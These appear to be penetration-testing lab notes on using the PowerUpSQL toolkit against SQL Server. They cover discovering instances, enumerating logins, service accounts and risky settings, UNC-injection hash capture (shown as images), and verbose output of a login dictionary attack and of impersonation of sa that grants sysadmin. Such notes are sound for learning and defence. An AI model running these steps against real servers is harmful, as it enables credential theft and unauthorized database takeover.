

# Using PowerUpSQL

## Recon

### **Discover SQL Server Instances**&#x20;


```powershell
# Both the command provides information about instances 
Get-SQLInstanceLocal
Get-SQLInstanceDomain 
## This command give SPN information which is further helpful for kerberoasting.
## Some instance may not be registered with AD. It is visible in Get-SQLInstanceLocal
```


<figure><figcaption></figcaption></figure>

Connectivity testing is crucial because not all discovered instances may be accessible (e.g., due to firewalls, auth issues, or the service being down).

### Check accessibility of instances&#x20;

<figure><figcaption></figcaption></figure>

## Enumeration

### Gather Basic Server Information&#x20;


```powershell
Get-SQLServerInfo -Instance <instance name>
```


<figure><figcaption></figcaption></figure>

Retrieves core server metadata like version, patch level, OS, and auth mode. This is basic enumeration to fingerprint the target. More important term is `IsSysadmin` term. If it is yes then we can use it further for privilege escalation or further exploitation.&#x20;

### Gather Database information&#x20;


```powershell
Get-SQLDatabase -Instance <instance name> | Select-Object Instance,DatabaseName,DatabaseOwner
```


<figure><figcaption></figcaption></figure>

### Enlist all direct sysadmins&#x20;

```
Get-SQLServerRoleMember | Select-Object RolePrincipalName,PrincipalName
```

<figure><figcaption></figcaption></figure>

### List server config settings essential for post-exploitation


```powershell
Get-SQLServerConfiguration | Where-Object {$_.Name -match "xp_cmdshell|Ole Automation|clr enabled|external scripts|Agent XPs|Database Mail|Ad Hoc Distributed Queries|remote access|remote admin|cross db ownership|contained database|filesystem|SMO and DMO|user instances"} | Select-Object Instance, Name, config_value
```


<figure><figcaption></figcaption></figure>

In above result we need to manually check for various things. Instead of this use the below commands which instantly highlights actual risk.


```powershell
Get-SQLServerConfiguration -Instance "DBSRV01\ManagementSQL" | Where-Object {$_.config_value -eq 1 -and $_.Name -match "xp_cmdshell|Ole Automation|clr enabled|external scripts|Agent XPs|Database Mail|Ad Hoc Distributed Queries|remote access|remote admin|cross db ownership|contained database|filesystem|SMO and DMO|user instances"} | Select-Object Instance, Name, config_value
```


<figure><figcaption></figcaption></figure>

The filesystem enumeration allows to use these procedures: `xp_dirtree`, `xp_subdirs`, and `xp_fileexist`.&#x20;

### List SQL Service accounts&#x20;

```powershell
Get-SQLServiceAccount -Instance <instance>
```

<figure><figcaption></figcaption></figure>

This accounts can further be used for lateral movement.&#x20;

### Perform Vuln Audit (Without exploit)

```
Invoke-SQLAudit 
```

<figure><figcaption></figcaption></figure>

We can see that [#exploiting-unc-injection](using-powerupsql.md#exploiting-unc-injection "mention") is possible here because of `xp_dirtree` available to public role.&#x20;

## Credentialed Enumeration&#x20;

### List Server Logins&#x20;


```powershell
Get-SQLServerLogin | Select-Object Instance,PrincipalName

Get-SQLServerLogin -Instance <instance> -Username <username> -Password <password> | Select-Object Instance,Principalname
## Note that the username and password must be supplied of SQL authentication. Windows auth can't work in this fields.
```


<figure><figcaption></figcaption></figure>

We can see the difference in result above because of the ownership. The terminal in black is executed as sqluser. That's why we can see other login that actually exists in the DBSRV01 instance. The ManagementSQL instance is owned by the `r0b` thus it gives correct listing in blue terminal. Thus we're able to get list of logins if one of the user actually has login to that instance available.&#x20;

<figure><figcaption></figcaption></figure>

### Check if the current user is sysadmin

```powershell
Get-SQLSysadminCheck

Get-SQLSysadminCheck -Instance <instance> 

Get-SQLSysadminCheck -Instance <instance> -Username user -Password pass
```

<figure><figcaption></figcaption></figure>

This is also visible in `Get-SQLServerInfo`.&#x20;

### List server-level privileges for login&#x20;

<figure><figcaption></figcaption></figure>

**What to look for:**&#x20;

1. `Impersonate` -> privilege-escalation potential&#x20;
   1. _Chained impersonation is possible._&#x20;
2. `BUILTIN\Users CONNECT SQL` -> Broad login surface
   1. _If BUILTIN\Users can CONNECT, any local windows user (even low privileged) can reach SQL._&#x20;
3. `public VIEW ANY DATABASE` -> Information Disclosure
   1. _Any login can enumerate database names or metadata._&#x20;

### Identifying Misconfigured Impersonation&#x20;

```
Invoke-SQLAuditPrivImpersonateLogin
```

<figure><figcaption></figcaption></figure>

The above thing is ran in `sqluser`.&#x20;


_Note that impersonation details will be displayed only if the current user is login and user of the database._&#x20;


### Check for UNC Injection

```powershell
Invoke-SQLAuditPrivXpDirtree
```

<figure><figcaption></figcaption></figure>


### Dump all server/db info to files&#x20;

```powershell
Invoke-SQLDumpInfo
## If nothing is mentioned then by default in current directory everything get exfiltrated. 
```

<figure><figcaption></figcaption></figure>

## Exploitation&#x20;

### Exploiting UNC Injection

#### Identification&#x20;

* [#perform-vuln-audit-without-exploit](using-powerupsql.md#perform-vuln-audit-without-exploit "mention")

#### Exploitation&#x20;

1. **Start SMB Server**&#x20;

<figure><figcaption></figcaption></figure>

2. **Send request to attacker machine**&#x20;

<figure><figcaption></figcaption></figure>

3. **Boom. You got the hash**&#x20;

<figure><figcaption></figcaption></figure>

### Exploiting Misconfigured Impersonation&#x20;

#### Identification&#x20;

1. [#identifying-misconfigured-impersonation](using-powerupsql.md#identifying-misconfigured-impersonation "mention")

#### Exploitation&#x20;

## Automation&#x20;

### Privilege Escalation&#x20;

```
Invoke-SQLEscalatePriv
```

Attempts sysadmin priv esc via identified vulns.&#x20;

<figure><figcaption></figcaption></figure>

**What all checks it performs**


```powershell
PS C:\Users\PowerUpSQL-master\PowerUpSQL-master> Invoke-SQLEscalatePriv -Verbose
VERBOSE: DBSRV01 : Checking if you're already a sysadmin...
VERBOSE: DBSRV01 : You're not a sysadmin, attempting to change that...
VERBOSE: LOADING VULNERABILITY CHECKS.
VERBOSE: RUNNING VULNERABILITY CHECKS.
VERBOSE: DBSRV01 : RUNNING VULNERABILITY CHECKS...
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Default SQL Server Login Password
VERBOSE: DBSRV01 : No named instance found.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Default SQL Server Login Password
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Weak Login Password
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 - Getting supplied login...
VERBOSE: DBSRV01 : Enumerating principal names from 10000 principal IDs..
VERBOSE: DBSRV01 - Performing dictionary attack...
VERBOSE: DBSRV01 - Failed Login: User = sa Password = sa
VERBOSE: DBSRV01 - Failed Login: User = ##MS_SQLResourceSigningCertificate## Password = ##MS_SQLResourceSigningCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_SQLReplicationSigningCertificate## Password = ##MS_SQLReplicationSigningCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_SQLAuthenticatorCertificate## Password = ##MS_SQLAuthenticatorCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_PolicySigningCertificate## Password = ##MS_PolicySigningCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_SmoExtendedSigningCertificate## Password = ##MS_SmoExtendedSigningCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_PolicyEventProcessingLogin## Password = ##MS_PolicyEventProcessingLogin##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_PolicyTsqlExecutionLogin## Password = ##MS_PolicyTsqlExecutionLogin##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_AgentSigningCertificate## Password = ##MS_AgentSigningCertificate##
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Weak Login Password
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: PERMISSION - IMPERSONATE LOGIN
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - Logins can be impersonated.
VERBOSE: DBSRV01 : - backontrack\sqladmin can impersonate the sa sysadmin login.
VERBOSE: DBSRV01 : - EXPLOITING: Starting exploit process...
VERBOSE: DBSRV01 : - EXPLOITING: Verified that the current user (backontrack\sqladmin) is NOT a sysadmin.
VERBOSE: DBSRV01 : - EXPLOITING: Attempting to add the current user (backontrack\sqladmin) to the sysadmin role by impersonating sa...
VERBOSE: DBSRV01 : - EXPLOITING: It was possible to make the current user (backontrack\sqladmin) a sysadmin!
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: PERMISSION - IMPERSONATE LOGIN
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - Server Link
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - No exploitable SQL Server links were found.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Server Link
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - Trusted Database
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - No non-default trusted databases were found.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Trusted Database
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - Database Ownership Chaining
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Database Ownership Chaining
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: PERMISSION - CREATE PROCEDURE
VERBOSE: DBSRV01 : CONNECTION SUCCESS
VERBOSE: DBSRV01 : Grabbing permissions for the master database...
VERBOSE: DBSRV01 : Grabbing permissions for the tempdb database...
VERBOSE: DBSRV01 : Grabbing permissions for the model database...
VERBOSE: DBSRV01 : Grabbing permissions for the msdb database...
VERBOSE: DBSRV01 : Grabbing permissions for the sqluserdb database...
VERBOSE: DBSRV01 : Grabbing permissions for the sqladmindb database...
VERBOSE: DBSRV01 : - The current login doesn't have the CREATE PROCEDURE permission in any databases.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: PERMISSION - CREATE PROCEDURE
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - xp_dirtree
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - At least one principal has EXECUTE privileges on xp_dirtree.
VERBOSE: DBSRV01 : - You do not have Administrator rights. Run this function as an Administrator in order to load Inveigh.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - XP_DIRTREE
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - xp_fileexist
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - The  principal has EXECUTE privileges on xp_fileexist.
VERBOSE: DBSRV01 : - You do not have Administrator rights. Run this function as an Administrator in order to load Inveigh.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - xp_fileexist
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: DATABASE ROLE - DB_DDLAMDIN
VERBOSE: DBSRV01 : CONNECTION SUCCESS
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: DATABASE ROLE - DB_DDLADMIN
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: DATABASE ROLE - DB_OWNER
VERBOSE: DBSRV01 : CONNECTION SUCCESS
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: DATABASE ROLE - DB_OWNER
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: SEARCH DATA BY COLUMN
VERBOSE: DBSRV01 : CONNECTION SUCCESS
VERBOSE: DBSRV01 : - Searching for column names that match criteria...
VERBOSE: DBSRV01 : - No columns were found that matched the search.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: SEARCH DATA BY COLUMN
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Potential SQL Injection - EXECUTE AS OWNER
VERBOSE: DBSRV01 : Connection Success.
VERBOSE: DBSRV01 : Checking databases below for vulnerable stored procedures:
VERBOSE: DBSRV01 : - Checking master database...
VERBOSE: DBSRV01 : - 0 found in master database
VERBOSE: DBSRV01 : - Checking tempdb database...
VERBOSE: DBSRV01 : - 0 found in tempdb database
VERBOSE: DBSRV01 : - Checking model database...
VERBOSE: DBSRV01 : - 0 found in model database
VERBOSE: DBSRV01 : - Checking msdb database...
VERBOSE: DBSRV01 : - 0 found in msdb database
VERBOSE: DBSRV01 : - Checking sqluserdb database...
VERBOSE: DBSRV01 : - 0 found in sqluserdb database
VERBOSE: DBSRV01 : - Checking sqladmindb database...
VERBOSE: DBSRV01 : - 0 found in sqladmindb database
VERBOSE: DBSRV01 : No automatic exploitation option has been provided. Uninformed exploitation of SQLi can have a negative impact on production environments.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Potential SQL Injection - EXECUTE AS OWNER
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Potential SQL Injection - Signed by Certificate Login
VERBOSE: DBSRV01 : Connection Success.
VERBOSE: DBSRV01 : Checking databases below for vulnerable stored procedures:
VERBOSE: DBSRV01 : - Checking master database...
VERBOSE: DBSRV01 : - 0 found in master database
VERBOSE: DBSRV01 : - Checking tempdb database...
VERBOSE: DBSRV01 : - 0 found in tempdb database
VERBOSE: DBSRV01 : - Checking model database...
VERBOSE: DBSRV01 : - 0 found in model database
VERBOSE: DBSRV01 : - Checking msdb database...
VERBOSE: DBSRV01 : - 0 found in msdb database
VERBOSE: DBSRV01 : - Checking sqluserdb database...
VERBOSE: DBSRV01 : - 0 found in sqluserdb database
VERBOSE: DBSRV01 : - Checking sqladmindb database...
VERBOSE: DBSRV01 : - 0 found in sqladmindb database
VERBOSE: DBSRV01 : No automatic exploitation option has been provided. Uninformed exploitation of SQLi can have a negative impact on production environments.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Potential SQL Injection - Signed by Certificate Login
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - Auto Execute Stored Procedure
VERBOSE: DBSRV01 : Connection Success.
VERBOSE: DBSRV01 : Checking for autoexec stored procedures...
VERBOSE: DBSRV01 : No stored procedures were found configured to auto execute.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK.
VERBOSE: COMPLETED ALL VULNERABILITY CHECKS.
VERBOSE: DBSRV01 : Success! You are now a sysadmin!
PS C:\Users\PowerUpSQL-master\PowerUpSQL-master>

```


<details>

<summary><strong>Failed sysadmin for sqluser</strong></summary>

```
PS C:\Users\PowerUpSQL-master\PowerUpSQL-master> Invoke-SqlEscalatePriv -Verbose
VERBOSE: DBSRV01 : Checking if you're already a sysadmin...
VERBOSE: DBSRV01 : You're not a sysadmin, attempting to change that...
VERBOSE: LOADING VULNERABILITY CHECKS.
VERBOSE: RUNNING VULNERABILITY CHECKS.
VERBOSE: DBSRV01 : RUNNING VULNERABILITY CHECKS...
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Default SQL Server Login Password
VERBOSE: DBSRV01 : No named instance found.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Default SQL Server Login Password
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Weak Login Password
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 - Getting supplied login...
VERBOSE: DBSRV01 : Enumerating principal names from 10000 principal IDs..
VERBOSE: DBSRV01 - Performing dictionary attack...
VERBOSE: DBSRV01 - Failed Login: User = sa Password = sa
VERBOSE: DBSRV01 - Failed Login: User = ##MS_SQLResourceSigningCertificate## Password = ##MS_SQLResourceSigningCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_SQLReplicationSigningCertificate## Password = ##MS_SQLReplicationSigningCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_SQLAuthenticatorCertificate## Password = ##MS_SQLAuthenticatorCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_PolicySigningCertificate## Password = ##MS_PolicySigningCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_SmoExtendedSigningCertificate## Password = ##MS_SmoExtendedSigningCertificate##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_PolicyEventProcessingLogin## Password = ##MS_PolicyEventProcessingLogin##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_PolicyTsqlExecutionLogin## Password = ##MS_PolicyTsqlExecutionLogin##
VERBOSE: DBSRV01 - Failed Login: User = ##MS_AgentSigningCertificate## Password = ##MS_AgentSigningCertificate##
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Weak Login Password
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: PERMISSION - IMPERSONATE LOGIN
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - Logins can be impersonated.
VERBOSE: DBSRV01 : - backontrack\sqladmin can impersonate the sa sysadmin login.
VERBOSE: DBSRV01 : - EXPLOITING: Starting exploit process...
VERBOSE: DBSRV01 : - EXPLOITING: Verified that the current user (backontrack\sqluser) is NOT a sysadmin.
VERBOSE: DBSRV01 : - EXPLOITING: Attempting to add the current user (backontrack\sqluser) to the sysadmin role by impersonating sa...
VERBOSE: DBSRV01 : - EXPLOITING: It was not possible to make the current user (backontrack\sqluser) a sysadmin.
VERBOSE: DBSRV01 : - backontrack\sqluser can impersonate the backontrack\sqladmin login (not a sysadmin).
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: PERMISSION - IMPERSONATE LOGIN
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - Server Link
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - No exploitable SQL Server links were found.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Server Link
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - Trusted Database
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - No non-default trusted databases were found.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Trusted Database
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - Database Ownership Chaining
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - Database Ownership Chaining
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: PERMISSION - CREATE PROCEDURE
VERBOSE: DBSRV01 : CONNECTION SUCCESS
VERBOSE: DBSRV01 : Grabbing permissions for the master database...
VERBOSE: DBSRV01 : Grabbing permissions for the tempdb database...
VERBOSE: DBSRV01 : Grabbing permissions for the msdb database...
VERBOSE: DBSRV01 : - The current login doesn't have the CREATE PROCEDURE permission in any databases.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: PERMISSION - CREATE PROCEDURE
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - xp_dirtree
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - At least one principal has EXECUTE privileges on xp_dirtree.
VERBOSE: DBSRV01 : - You do not have Administrator rights. Run this function as an Administrator in order to load Inveigh.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - XP_DIRTREE
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - xp_fileexist
VERBOSE: DBSRV01 : CONNECTION SUCCESS.
VERBOSE: DBSRV01 : - The  principal has EXECUTE privileges on xp_fileexist.
VERBOSE: DBSRV01 : - You do not have Administrator rights. Run this function as an Administrator in order to load Inveigh.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Excessive Privilege - xp_fileexist
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: DATABASE ROLE - DB_DDLAMDIN
VERBOSE: DBSRV01 : CONNECTION SUCCESS
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: DATABASE ROLE - DB_DDLADMIN
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: DATABASE ROLE - DB_OWNER
VERBOSE: DBSRV01 : CONNECTION SUCCESS
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: DATABASE ROLE - DB_OWNER
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: SEARCH DATA BY COLUMN
VERBOSE: DBSRV01 : CONNECTION SUCCESS
VERBOSE: DBSRV01 : - Searching for column names that match criteria...
VERBOSE: DBSRV01 : - No columns were found that matched the search.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: SEARCH DATA BY COLUMN
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Potential SQL Injection - EXECUTE AS OWNER
VERBOSE: DBSRV01 : Connection Success.
VERBOSE: DBSRV01 : Checking databases below for vulnerable stored procedures:
VERBOSE: DBSRV01 : - Checking master database...
VERBOSE: DBSRV01 : - 0 found in master database
VERBOSE: DBSRV01 : - Checking tempdb database...
VERBOSE: DBSRV01 : - 0 found in tempdb database
VERBOSE: DBSRV01 : - Checking msdb database...
VERBOSE: DBSRV01 : - 0 found in msdb database
VERBOSE: DBSRV01 : No automatic exploitation option has been provided. Uninformed exploitation of SQLi can have a negative impact on production environments.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Potential SQL Injection - EXECUTE AS OWNER
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Potential SQL Injection - Signed by Certificate Login
VERBOSE: DBSRV01 : Connection Success.
VERBOSE: DBSRV01 : Checking databases below for vulnerable stored procedures:
VERBOSE: DBSRV01 : - Checking master database...
VERBOSE: DBSRV01 : - 0 found in master database
VERBOSE: DBSRV01 : - Checking tempdb database...
VERBOSE: DBSRV01 : - 0 found in tempdb database
VERBOSE: DBSRV01 : - Checking msdb database...
VERBOSE: DBSRV01 : - 0 found in msdb database
VERBOSE: DBSRV01 : No automatic exploitation option has been provided. Uninformed exploitation of SQLi can have a negative impact on production environments.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK: Potential SQL Injection - Signed by Certificate Login
VERBOSE: DBSRV01 : START VULNERABILITY CHECK: Excessive Privilege - Auto Execute Stored Procedure
VERBOSE: DBSRV01 : Connection Success.
VERBOSE: DBSRV01 : Checking for autoexec stored procedures...
VERBOSE: DBSRV01 : No stored procedures were found configured to auto execute.
VERBOSE: DBSRV01 : COMPLETED VULNERABILITY CHECK.
VERBOSE: COMPLETED ALL VULNERABILITY CHECKS.
VERBOSE: DBSRV01 : Fail. We couldn't get you sysadmin access today.
PS C:\Users\PowerUpSQL-master\PowerUpSQL-master>

```

</details>

## Execute Commands&#x20;

Only sysadmins can execute commands.&#x20;

<figure><figcaption></figcaption></figure>

